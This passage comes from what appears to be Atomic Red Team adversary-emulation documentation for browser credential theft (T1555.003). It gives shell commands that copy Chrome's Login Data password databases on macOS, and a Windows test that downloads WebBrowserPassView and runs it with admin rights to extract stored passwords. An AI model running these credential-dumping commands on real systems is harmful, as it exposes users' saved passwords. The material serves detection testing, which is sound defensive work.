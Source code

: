 




#### Attack Commands: Run with `sh`! 


```sh
cp ~/Library/"Application Support/Google/Chrome/Default/Login Data" "/tmp/T1555.003_Login Data"
cp ~/Library/"Application Support/Google/Chrome/Default/Login Data For Account" "/tmp/T1555.003_Login Data For Account"
```

#### Cleanup Commands:
```sh
rm "/tmp/T1555.003_Login Data" >/dev/null 2>&1
rm "/tmp/T1555.003_Login Data For Account" >/dev/null 2>&1
```





<br/>
<br/>

## Atomic Test #15 - WebBrowserPassView - Credentials from Browser
The following Atomic test utilizes WebBrowserPassView to extract passwords from browsers on a Window system. WebBrowserPassView is an open source application used to retrieve passwords stored on a local computer. Recently noticed as a tool used in the BlackCat Ransomware.

**Supported Platforms:** Windows


**auto_generated_guid:** e359627f-2d90-4320-ba5e-b0f878155bbe





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| webbrowserpassview_path | Path to the WebBrowserPassView executable | string | PathToAtomicsFolder&#92;T1555.003&#92;bin&#92;WebBrowserPassView.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Start-Process "#{webbrowserpassview_path}"
Start-Sleep -Second 4
Stop-Process -Name "WebBrowserPassView"
```




#### Dependencies:  Run with `powershell`!
##### Description: Check if WebBrowserPassView.exe exists in the specified path #{webbrowserpassview_path}
##### Check Prereq Commands:
```powershell
if (Test-Path "#{webbrowserpassview_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\T1555.003\bin\" -ErrorAction ignore -Force | Out-Null
Invoke-WebRequest https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1555.003/bin/WebBrowserPassView.exe -OutFile "#{webbrowserpassview_path}"
```

